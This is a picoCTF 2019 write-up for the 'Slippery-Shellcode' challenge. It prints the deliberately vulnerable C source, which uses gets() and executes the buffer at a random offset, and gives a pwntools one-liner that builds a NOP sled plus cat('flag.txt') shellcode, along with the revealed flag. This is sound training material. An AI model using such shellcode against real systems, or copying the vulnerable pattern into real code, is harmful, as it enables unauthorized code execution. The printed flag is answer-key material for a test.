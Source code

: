 # PicoCTF19 Slippery-Shellcode

## Challenge

This [program](https://2019shell1.picoctf.com/static/7bc5b2039cc22a0671fe936eb8633ea1/vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode on the shell server. [Source](https://2019shell1.picoctf.com/static/7bc5b2039cc22a0671fe936eb8633ea1/vuln.c).

## Hints

None

## Solution

Let's print the directory

```bash
samson@pico-2019-shell1:/problems/slippery-shellcode$ ls -al
total 732
drwxr-xr-x   2 root       root                   4096 Sep 28 21:52 .
drwxr-x--x 684 root       root                  69632 Oct 10 18:02 ..
-r--r-----   1 hacksports slippery-shellcode_5     36 Sep 28 21:52 flag.txt
-rwxr-sr-x   1 hacksports slippery-shellcode_5 662532 Sep 28 21:52 vuln
-rw-rw-r--   1 hacksports hacksports              692 Sep 28 21:52 vuln.c
samson@pico-2019-shell1:/problems/slippery-shellcode$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  char buf[BUFSIZE];
  puts("Enter your shellcode:");
  vuln(buf);
  puts("Thanks! Executing from a random location now...");
  int offset = (rand() % 256) + 1;
  ((void (*)())(buf+offset))();
  puts("Finishing Executing Shellcode. Exiting now...");
  return 0;
}
```

Look at this line in particular

```
  ((void (*)())buf)();
```
This takes `buf+offset`, casts it to the void function pointer which returns nothing and then runs that function. So it'll execute whatever is at the address for `buf`.

So the solution for this is to create a [NOP Sled](https://en.wikipedia.org/wiki/NOP_slide) to have no executable shellcode at any point in the space between 0 and 255 and execute anything afterwards.
That handles the case where `offset==255`, then we can run our actual command which is printing the flag.

In a nutshell, we are inserting `NOP` operations until we can certain that our code will be run in full no matter what the random offset will be.


```bash
samson@pico-2019-shell1:/problems/slippery-shellcode$ (python -c "import pwn; print(pwn.asm(pwn.shellcraft.nop()*256+pwn.shellcraft.cat('flag.txt',1)))"; cat) | ./vuln
Enter your shellcode:
... <redacted>
Thanks! Executing from a random location now...
picoCTF{sl1pp3ry_sh311c0d3_ecc37b22}
Segmentation fault (core dumped)
```

## Flag

`picoCTF{sl1pp3ry_sh311c0d3_ecc37b22}`